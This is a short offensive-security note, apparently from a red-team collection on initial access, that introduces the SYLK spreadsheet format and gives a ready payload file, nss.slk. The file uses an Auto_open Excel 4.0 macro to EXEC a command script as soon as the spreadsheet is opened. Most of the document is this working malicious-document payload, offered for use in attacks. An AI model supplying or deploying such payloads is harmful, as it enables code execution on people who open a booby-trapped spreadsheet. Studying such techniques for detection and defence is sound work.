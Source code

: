 # Symbolic Link (SYLK)

---

`SYLK` is a Microsoft file format typically used to exchange data between applications, specifically spreadsheets. SYLK files conventionally have a .slk suffix

### Create Payload

nss.slk

```excel
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("E:\Initial-Access\Macro\screen.cmd")
C;X1;Y102;K0;EHALT()
E   
```
